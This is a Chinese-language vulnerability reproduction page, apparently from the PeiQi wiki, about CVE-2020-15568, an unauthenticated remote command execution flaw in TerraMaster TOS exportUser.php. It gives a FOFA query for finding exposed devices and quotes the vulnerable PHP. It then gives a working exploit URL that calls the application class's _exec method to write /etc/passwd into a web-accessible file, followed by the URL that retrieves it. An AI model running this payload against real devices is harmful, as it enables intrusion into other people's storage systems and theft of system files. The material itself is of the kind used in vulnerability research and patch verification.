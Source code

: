 ```yaml
---
title: TerraMaster TOS exportUser.php 远程命令执行
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - TerraMaster
---
```


# TerraMaster TOS exportUser.php 远程命令执行 CVE-2020-15568

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.1.24

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

返回200后再次访问

````
http://xxx.xxx.xxx.xxx/include/test.txt
````

![](/img/20210924013643032215.png)